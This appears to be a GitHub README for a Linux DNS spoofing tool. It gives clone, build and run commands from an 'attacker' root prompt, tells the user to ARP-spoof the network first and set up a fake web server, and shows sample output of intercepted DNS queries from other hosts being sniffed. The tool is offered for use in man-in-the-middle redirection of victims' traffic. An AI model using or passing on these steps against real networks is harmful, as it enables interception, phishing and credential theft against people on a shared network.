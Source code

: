# DNS-Spoof
Linux DNS Spoofing tool


<img src="/execute.gif">


* You must arp-spoofing before dns-spoofing, and need fake web server.

1. Clone this project
```
[root@attacker dns_spoof]# git clone https://github.com/tear94fall/DNS-Spoof.git
[root@attacker dns_spoof]# ls -al  
합계 20  
drwxr-xr-x  3 test test    70 11월 14 17:46 .  
drwxr-xr-x. 6 root root   112 11월 14 14:23 ..  
drwxr-xr-x  8 root root   166 11월 14 17:47 .git  
-rw-rw-rw-  1 root root 10957 11월 14 17:46 main.cpp  
-rw-rw-rw-  1 test test    90 11월 13 10:36 makefile  
-rw-rw-rw-  1 root root  1132 11월 14 16:01 protocol.hpp  
```

2. Build project
```
[root@attacker dns_spoof]# make  
gcc main.cpp -o main -lnet -lpcap -lpthread  
```

3. Execute with info
```
[root@attacker dns_spoof]# ./main <target_domain> <fake web server>
1 :  intf1
2 :  intf333
...  
```  

4. Choose the network interface and wait  
```
[root@attacker dns_spoof]# ./main <target_domain> <fake web server>
1 :  intf1
2 :  intf333
...  
Enter the interface number you would like to sniff : 1
dns-spoofing: linstening on <network interface> [udp dst port 53 and not src <fake web server>]
192.168.0.123.38812 > 192.168.0.1.53:  9108+ A? www.google.com
192.168.0.74.36095 > 192.168.0.1.53:  <DNS id>+ A? <target_domain>

```
